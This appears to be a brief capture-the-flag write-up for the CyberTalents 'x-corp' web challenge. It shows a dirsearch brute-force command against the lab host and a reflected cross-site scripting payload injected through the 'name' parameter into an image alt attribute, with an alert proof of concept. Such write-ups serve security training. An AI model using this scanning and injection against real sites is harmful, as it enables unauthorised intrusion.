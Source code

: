 # Solve x-corp
#### https://cybertalents.com/challenges/web/x-corp

![alt text](image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mgjk319pirvmej6zqdkgxu639-web.cybertalentslabs.com -x 403,404`

Nothing found 

### Try to cause error in the app

![alt text](image-1.png)

The parameter is reflected in the image alt 

### Try xss payload
`wcamxwl32pue3e6mgjk319pirvmej6zqdkgxu639-web.cybertalentslabs.com/?name=' onload=alert('m_1337')`
![alt text](image-2.png)

>Find More on ==> github.com/MedhatHassan 
